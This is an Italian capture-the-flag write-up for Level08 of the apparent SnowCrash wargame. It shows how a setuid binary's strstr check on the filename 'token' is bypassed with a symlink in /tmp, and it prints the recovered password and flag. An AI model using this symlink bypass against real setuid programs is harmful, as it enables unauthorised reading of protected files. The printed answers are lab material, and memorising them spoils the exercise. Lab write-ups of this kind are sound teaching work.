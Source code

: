 # Level08
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
Abbiamo un eseguibile che stampa il contenuto di tutti i file tranne il file token,
analizzando con il comando:
```bash
strings level08
```
notiamo che è chiaramente scritto il nome `token` e subito sotto `You may not access '%s'`
in effetti creando un file chiamato token in /tmp l'eseguibile lo rifiuta proprio come il file
token originale, altro indizio è la funzione `strstr` visibile dal comando `strings`, usata
molto probabilmente per controllare il nome del file passatogli come argomento

### 2 passaggio:
Dunque ora basta creare un collegamento nella cartella /tmp che porta al file originale token
chiamandolo con un altro nome e poi passarlo all'eseguibile
```bash
ln -s ~/token /tmp/flag
./level08 /tmp/flag
```
e ora abbiamo il seguente output:
```bash
quif5eloekouj29ke0vouxean
```
Ovvero la password per accedere a flag08, quindi:
```bash
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
